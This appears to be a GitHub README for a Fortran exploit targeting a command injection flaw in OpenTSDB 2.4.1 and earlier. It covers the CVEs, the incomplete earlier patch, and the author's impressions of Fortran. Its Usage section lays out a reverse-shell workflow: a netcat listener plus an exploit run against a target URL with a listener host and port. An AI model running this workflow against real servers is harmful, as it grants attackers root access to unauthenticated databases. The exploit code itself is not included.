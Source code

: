 # opentsdb_key_cmd_injection
An exploit for OpenTSDB <= 2.4.1 cmd injection (CVE-2023-36812/CVE-2023-25826) written in Fortran
# About
This is an exploit for a command injection vulnerability in OpenTSDB verions 2.4.1 and prior (CVE-2023-36812/CVE-2023-25826). The exploit is written in modern Fortran and leverages the official Fortran [http-client library](https://github.com/fortran-lang/http-client) that was created earlier this year.

# Vulnerability details
OpenTSDB is an open-source time series database written in Java. In 2020, a command injection vulnerability was discovered in versions 2.4.0 and prior that could be exploited in order to gain remote code execution on the host with root privileges. Since OpenTSDB does not support authentication, this vulnerability, tracked as CVE-2020-35476, could be exploited by anyone with access to the OpenTSDB web interface. A patch was released as part of version 2.4.1

This year it was discovered that the patch for CVE-2020-35476 was incomplete, and command injection is still possible in OpenTSDB 2.4.1 via several vectors. Details:
- [security advisory](https://github.com/OpenTSDB/opentsdb/security/advisories/GHSA-76f7-9v52-v2fw)
- Tracked as: [CVE-2023-36812](https://nvd.nist.gov/vuln/detail/CVE-2023-36812). It is worth nothing that [CVE-2023-25826](https://nvd.nist.gov/vuln/detail/CVE-2023-25826) actually seems to describe the same vulnerability, and both CVEs link to the exact same patch.
- Credit: Gal Goldstein and Daniel Abeles of Oxeye
- Patch: The patch will be introduced in 2.4.2, which is not an official release yet. At the time of writing, the most recent OpenTSDB [release](https://github.com/OpenTSDB/opentsdb/releases) is 2.4.1, so it is likely that most OpenTSDB instances in production are vulnerable. That being said, the OpenTSDB [FAQ](http://opentsdb.net/faq.html) emphasizes that this project "was written for internal use only", and "hasn't been through any security review and does not included authentication."

# Why Fortran?
The short version is that I saw this convo:

The idea of writing an exploit in [the programming language used to put people on the moon](https://www.linux.com/news/how-they-built-it-software-apollo-11/) intruiged me so much that I had to explore it myself. This exploit is the result of that experiment. To the question whether it was successful, I can respond only with these wise, yet cursed words that bind all devs in blood: It works on my machine. ¯\\_(ツ)_/¯

In any case, my key takeaways from this project are:
- Fortran is actually pretty cool, and suprisingly easy to learn.
- The modern Fortran ecosystem, including the [fpm](https://github.com/fortran-lang/fpm) package manager, shows great promise.
- Fortran is a strongly typed language, and I found that to be a good thing, because I encountered few nasty run-time errors.
- Fortran projects with dependencies are large because fpm includes the dependency source code directly into your project. The benefit is that it avoids system pollution.
- Library support is relatively limited and chaotic compared to modern languages. Unfortunately this does not just affect the http-client library.
- Unsurprisingly, good documentation and troubleshooting tips are harder to come by than for most modern programming languages, though there are still quite a few useful posts on StackOverflow and long-forgotten forums from the early 2000s.
- AI tools like ChatGPT and GithHub Copilot make for even less reliable coding buddies than is the case for modern languages.

All in all, it is not easy to imagine this language really gaining significance within offensive security, if only because there are so many solid, modern alternatives out there for any imaginable use case (Python, Go, Rust, Ruby, C# to name just a few). But if you like experimenting with different programming languages and don't mind encapsulating your strings in `trim()` calls all the time (PLEASE TAKE NOTE OF THIS IT WILL SAVE YOU SO MUCH SUFFERING), Fortran is absolutely worth checking out. I'm unironically rooting for this language now and I might revisit it if they continue to add support to the http-client library, especially if they add an http-server library at some point.

TL;DR: Fortran http-client lib goes brr.

# Usage
- Start a listener on your system, eg:
```
nc -nlvp 1337
```
- In a separate window, nagivate to the `opentsdb_key_cmd_injection` directory
```
# cd /path/to/opentsdb_key_cmd_injection/
```
- Run the project via `fpm` (make sure to install it first. See the installation instructions in the next section)
```
# /path/to/fpm run -- -t <target_url> -l <lhost> -p <lport> [-v]
```
Options:
- `-t` - TARGET URL: the base URL to OpenTSDB (required)
- `-l` - LHOST: the IP of the system where you are running a listener (required)
- `-p` - LPORT: the listener port (required)
- `-v` - VERBOSE: enable verbose printing (optional)

# Installation
- Install `gfortran`. On debian-based systems this can be done via:
```
apt install gfortran
```
- Install fpm. The easiest way to do this is to download a binary for the latest stable release from the fpm [releases](https://github.com/fortran-lang/fpm/releases/latest) on GitHub and then make it executable:
```
chmod +x /<path>/to/fpm
```
Make sure you have `git` installed on your system before installing `fpm`.

# Poc || GTFO
https://github.com/ErikWynter/opentsdb_key_cmd_injection/assets/55885619/81375ad1-796a-4e52-931e-b5b9c6148a33

# A brief history of Fortran (because why not)
Fortran is mostly known as an archaic language that played an important role in the history of modern computing, but can no longer be considered relevant today. It was first released in 1957, predating both the ARPANET and Unix by more than a decade. Based on [this time-series data video](https://www.youtube.com/watch?v=qQXXI5QFUfw) it was the dominant programming language throughout the 1960s and 1970s, and remained among the 10 most popular languages until the late 1990s. But by the time Windows 98 was released, it had clearly fallen out of fashion, in favor of more modern languagues like C, C++, Java and JavaScript, all of which are still widely used today.

Apart from the brave souls who manage legacy systems, I doubt that many people in IT (let alone outside of our bubble), have come across Fortran in the last two decades, or are even aware that it's still around. Despite that, Fortran remains under active development. As stated on the [offical Fortran website](https://fortran-lang.org/), the language was last revised in 2018, and we will hopefully see another revision this year (2023). In fact, it seems the Fortran community has been very active in the last few years, pushing out several major projects to help modernize the ecosystem, including:
- [stdlib](https://github.com/fortran-lang/): the first-ever Fortran standard library (first release: 2021)
- [fpm](https://github.com/fortran-lang/fpm): a modern package manager and build system called fpm (first alpha release: 2020)
- [http-client](https://github.com/fortran-lang/http-client): the previously referenced HTTP client library (first release: 2023).

Given this, it appears the maintainers are aiming for somewhat of a Fortran comeback, or at the very least to give the language a fighting chance to survive for a few more decades. While even the most fanatic Fortran stan probably doesn't expect to see the language crack the top 10 of most popular programming languages ever again, the ongoing modernization of the language and its ecosystem has likely made Fortran more relevant than it has been in the last decade or two.
